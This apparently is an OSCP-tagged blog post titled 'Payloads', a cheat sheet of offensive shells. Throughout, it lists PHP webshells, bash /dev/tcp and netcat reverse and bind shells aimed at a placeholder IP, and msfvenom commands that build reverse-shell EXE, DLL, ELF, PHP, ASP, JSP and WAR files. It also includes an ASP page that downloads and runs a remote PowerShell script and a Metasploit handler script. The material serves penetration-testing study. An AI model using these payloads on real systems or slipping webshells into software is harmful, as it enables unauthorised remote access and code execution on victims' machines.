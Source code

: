 ```yaml
---
title: Payloads
author: sKyW1per 
category: "OSCP"
date: "2021-03-06 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Webshells
```
Kali ready-to-go webshells
/usr/share/webshells/
/usr/share/seclists/Web-Shells/

PHP code for a simple web shell:
<?=`$_GET[0]`?>
<?php echo shell_exec($_GET['cmd']); ?>
<?php $cmd=$_GET['cmd']; system($cmd);?>

PHP to immediately pop a shell (linux-only)
<?php $sock=fsockopen("192.168.1.1",443); exec("/bin/sh -i <&3 >&3 2>&3");?>
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.1/443 0>&1'");?>
```

###### Pop a shell from command line
```
Bash
$ bash -i >& /dev/tcp/192.168.1.1/443 0>&1

Netcat
$ nc -e /bin/bash 192.168.1.1 443
```

###### Ready-to-go reverse shell payloads
```
Nishang
https://github.com/samratashok/nishang

PayloadsAllTheThings
https://github.com/swisskyrepo/PayloadsAllTheThings

Pentestmonkey Cheatsheet
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Shell Spawning with NetSec
https://netsec.ws/?p=337
```

###### List msfvenom payload options
```
$ msfvenom -l payloads | grep php
$ msfvenom -l archs
$ msfvenom -l formats
```

###### Windows payloads for in a python script
```
Unstaged payload
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -b "\x00" -f python -v shellcode -a x86 --platform windows > payload.txt

Staged payload
$ msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.1 LPORT=443 -b "\x00" -f python -v shellcode -a x86 --platform windows > payload.txt
```


###### Windows reverse shells
```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f dll > msf.dll
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f exe > shell.exe
```

###### .elf reverse shell
```
x86
$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f elf > shell.elf
x64
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f elf > shell.elf
$ msfvenom -p cmd/unix/reverse_bash LHOST=192.168.1.1 LPORT=443 -f raw > shell.sh
```
s
###### Some more reverse shells
```
.php
$ msfvenom -p php/reverse_php LHOST=192.168.1.1 LPORT=443 -f raw > shell.php
.asp
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f asp > shell.asp
.jsp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f raw > shell.jsp
.war
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f war > shell.war
```

###### Simple ASP(X?) payload without importing additional libraries
```
<%
Set s = CreateObject("WScript.Shell")
Set cmd = s.Exec("cmd /c powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.10.10:80/InvokePowerShellTcp.ps1')")
o = cmd.StdOut.Readall()
Response.write(o)
>
```

###### Netcat reverse shell
```
Set up a listener
$ nc -nvlp 443

Connect to the listener (Windows)
$ nc -nv 192.168.1.1 443 -e cmd.exe
Connect to the listener (Linux)
$ nc -nv 192.168.1.1 443 -e /bin/bash
```

###### Netcat bind shell
```
Set up a listener (bind shell) (Windows target)
 $ nc -nvlp 10.10.10.10 443 -e cmd.exe
Set up a listener (bind shell) (Linux target)
 $ nc -nvlp 10.10.10.10 443 -e /bin/bash

Connect to the listener
$ nc -nv 192.168.1.1 443
```

###### Metasploit Multi Handler (.rc script)
```
use exploit/multi/handler
set PAYLOAD windows/shell_reverse_tcp
set LHOST 192.168.1.1
set LPORT 443
set ExitOnSession false
exploit -j -z
```
